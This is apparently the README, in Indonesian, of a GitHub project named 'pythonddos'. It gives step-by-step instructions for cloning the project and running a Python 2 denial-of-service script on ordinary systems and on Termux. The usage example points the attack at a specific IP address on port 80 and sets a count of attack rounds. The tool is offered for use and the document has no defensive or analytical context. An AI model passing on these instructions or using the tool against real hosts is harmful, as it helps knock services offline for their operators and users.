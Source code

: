 # pythonddos

cara download :
1. git clone https://github.com/dimss7/pythonddos
2. cd pythonddos
3. chmod +x ddospython.py
4. python2 ddospython.py

python2 hostname,port,jumlah serangan ddos

contoh :
  python2 ddospython.py 120.29.226.121 80 100
  
  tekan ENTER
  
 Download lewat Termux
 
 cara download :
 1. pkg install git
 2. pkg install python2
 3. git clone https://github.com/dimss7/pythonddos
 4. cd pythonddos
 5. chmod +x ddospython.py
 6. python2 ddospython.py
 
 python2 ddospython.py hostname,port,jumlah serangan ddos
 
contoh :
  python2 ddospython.py 120.29.226.121 80 100 
  
  tekan ENTER
  
  #tq
